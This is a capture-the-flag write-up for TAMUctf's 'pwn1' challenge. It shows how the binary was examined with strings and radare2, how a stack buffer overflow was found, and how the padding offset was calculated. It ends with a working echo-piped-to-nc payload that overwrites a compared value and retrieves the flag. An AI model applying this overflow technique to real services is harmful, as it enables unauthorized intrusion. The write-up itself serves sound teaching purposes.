









PWN1
```
nc pwn.tamuctf.com 4321

Difficulty: easy
```

[binary|changem]

Task has no description, everything looks obvious:

```
$ nc pwn.tamuctf.com 4321

Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
aaa
I don't know that! Auuuuuuuugh!
```

Okay, let's check what we've got in pwn1 file:

```
$ file pwn1 

pwn1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
```

It is 32-bit elf: we can run it only on 32-bit operation systems or https://askubuntu.com/questions/454253/how-to-run-32-bit-app-in-ubuntu-64-bit

Let's check what strings it has:
```
$ strings pwn1

...
UWVS
[^_]
Right. Off you go.
flag.txt
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
I don't know that! Auuuuuuuugh!
What... is your quest?
To seek the Holy Grail.
What... is my secret?
;*2$"
GCC: (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0
...
```

Okay. We could try to answer some questions, let's try:

```
$ nc pwn.tamuctf.com 4321

Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
;*2$"
I don't know that! Auuuuuuuugh!
```

I've tried some strings as answer to question `What... is my secret?` but vainly.

Time to uncover radare2.


```
$ r2 -b 32 -d pwn1
Process with PID 9563 started...
= attach 9563 9563
bin.baddr 0x565b6000
Using 0x565b6000
asm.bits 32
glibc.fc_offset = 0x00148
 -- You can mark an offset in visual mode with the cursor and the ',' key. Later press '.' to go back
[0xf7efea20]> s main
[0x565b6779]> V
```

`s main` seeks to main function

`V` brings to visual mode

Then press two times `p`:
`p/P      rotate print modes (hex, disasm, debug, words, buf)`

you will see something like:




Set breakpoint at the first command after the first fgets just to play around.
To do this enter into command mode by pressing `:`, then type `db 0x5664a7f6`.
To check whether breakpoint has set type just `db`.
To read a short help about each command in r2 type question mark after the command, e.g. `db?`

Then type `dc` in command mode to continue execution until breakpoint.
We can see the first question and we can try to answer to it with already known string `Sir Lancelot of Camelot`:


Okay. To exit command mode just press Enter.
Let's find next fgets by simple scrolling and set breakpoint just on the next command after it.
Then execute binary until breakpoint. Put the answer to second question which was found before `To seek the Holy Grail.`:


Do the same: set breakpoint after third !gets, execute the binary.
Since we don't know the answer to third question just put 50 `a` chars:


By pressing Enter return to visual mode:


We can see that:

(1) next command is a simple comparison, value from stack by address `ebp-0x10` compares to value `0xdea110c8`

(2) next command is `jne` - jump if not equal, we would like to not jump since the next is a call `call sym.print_flag` which looks promising

(3) here is a current value of ebp registry


Let's check what we have by address  ebp-0x10.
Enter command mode - press `:` - and print hex dump of 16 bytes (dword) by address - type `x 16 @ebp-0x10`:


oh! we can see `aaa` here. Seems we have [stack overflow|https://en.wikipedia.org/wiki/Stack_buffer_overflow]

I'm not going to explain how it works since it is full entire article. Read wiki or google `stack buffer overflow`.

Let's calculate how many `a` + `0xdea110c8` we should put to override @ebp-0x10.

Press `c` being in visual mode, so you'll jump to your stack memory.
Using arrow keys go to the first `a` in your stack. It is a starting address.
We need to get the difference between this address and @ebp-0x10:


( value of ebp ) - ( 0x10 ) - ( address of dword of first `a` in the stack ) + ( offseet of first `a` )

In my case it is:



`0xffcafd28` - `0x10` - `0xffcafce0` + 0xD 

The result is 43:
```
$ perl -E 'say ((0xfff60d58-0x10)-(0xfff60d10+0xd))'

43
```

So we need 43 `a` and 4 bytes `0xdea110c8`.

To put those 4 bytes I would use echo, e.g.:
```
$ echo -e '\x61'
a
```

So, exploit should looks like:

```
echo -e 'Sir Lancelot of Camelot\nTo seek the Holy Grail.\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xde\xa1\x10\xc8' |nc pwn.tamuctf.com 4321
```

But it doesn't work:


Hm, let's run it under radare2 again, set up breakpoint just after gets, and input answer for the third questions as `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcde`.
I choosed bcde instead of \xde\xa1\x10\xc8 because I don't know how to input such data by hand.

Then let's check what we have to compare:


`cmp` instruction has 3 bytes size, so we do +3 and print 4 bytes of code
the second print takes 4 bytes of @ebx-0x10

we have different byte order!

Let's modify our payload so last 4 bytes will be in litle endian order:

```
$ echo -e 'Sir Lancelot of Camelot\nTo seek the Holy Grail.\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xc8\x10\xa1\xde' |nc pwn.tamuctf.com 4321
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
gigem{34sy_CC428ECD75A0D392}

```
